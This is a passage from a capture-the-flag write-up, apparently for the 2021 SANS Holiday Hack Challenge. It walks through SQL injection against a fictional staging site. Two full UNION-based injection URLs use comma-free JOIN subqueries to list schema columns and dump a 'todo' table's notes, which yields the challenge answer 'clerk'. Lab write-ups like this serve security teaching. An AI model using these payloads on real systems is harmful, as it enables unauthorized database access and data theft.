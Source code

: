 ```
https://staging.jackfrosttower.com/detail/37,68 UNION ALL SELECT * FROM (SELECT 9999)a 
JOIN (SELECT 8888)b 
JOIN (SELECT group_concat(COLUMN_NAME) from information_schema.COLUMNS as email)c 
JOIN (SELECT 7777)d 
JOIN (SELECT 6666)e 
JOIN (SELECT 5555)f 
JOIN (SELECT 4444)g --
```
Now we see the columns in all the three tables. <br>

<img src="../../images/hhc2021/image145.png" alt="drawing" width="1200px"/>

#### Extract data from additional table
We now focus on the newly found "todo" table. <br>
The most relevant column here is <b>note</b>. So, we get values from <b>note</b> column from "todo" table. <br>
```
https://staging.jackfrosttower.com/detail/1,30 UNION ALL SELECT * FROM (SELECT 9999)a 
JOIN (SELECT 8888)b 
JOIN (SELECT note from todo as email)c 
JOIN (SELECT 7777)d 
JOIN (SELECT 6666)e 
JOIN (SELECT 5555)f 
JOIN (SELECT 4444)g --
```

Now we see all the notes from “todo” table and one of them noting Jack Frost planned to offer <b>clerk</b> position to Santa. <br> 
We enter "clerk" as the answer and it is accepted!! <br>

<img src="../../images/hhc2021/image147.png" alt="drawing" width="400px"/>

